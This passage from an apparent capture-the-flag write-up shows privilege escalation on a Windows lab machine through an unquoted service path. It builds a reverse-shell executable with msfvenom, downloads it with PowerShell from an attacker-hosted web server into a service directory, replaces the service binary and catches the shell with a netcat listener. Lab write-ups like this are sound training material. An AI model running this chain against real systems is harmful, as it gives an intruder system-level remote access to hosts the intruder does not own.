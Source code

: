 
### Unquoted Service Path Privilege Escalation

Now that we know that there is a service we can potentially highjack and abuse to gain a system shell on the victim PC lets do that.

The first still will be to generate an windows reverse shell payload, we will use *msfvenom* to do so. Remember to change your LHOST to your machines attacking IP address.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.11.11 LPORT=9001 -e x86/shikata_ga_nai -f exe -o AdvancedService.exe
```

![MSFVenom payload](/assets/images/vh_steel_mountain/steel-mountain-msfvenom.jpg)

Next start up a simple python web server in the directory where your msfvenom payload is located so that we can get the file onto the victim machine.
```
sudo python3 -m http.server 80
```

Within a powershell session use this command to download the reverse shell onto the victim system.
```
(New-Object System.Net.WebClient).DownloadFile('http://10.11.11.11/AdvancedService.exe', 'C:\Program Files (x86)\IObit\Advanced SystemCare\Advanced.exe')

# If you are not in a powershell console session use this
powershell.exe -c "(New-Object System.Net.WebClient).DownloadFile('http://10.11.11.11/AdvancedService.exe', 'C:\Program Files (x86)\IObit\Advanced SystemCare\Advanced.exe')"
```

Stop the service with the command below
```
net stop AdvancedSystemCareService9
```

![Stop service](/assets/images/vh_steel_mountain/steel-mountain-service-stop.jpg)

Replace the service exe with the malicious reverse shell payload.
```
copy Advance.exe ASCService.exe
```

Setup a netcat listener to catch your reverse shell connection back.
```
sudo nc -nvlp 9001
```
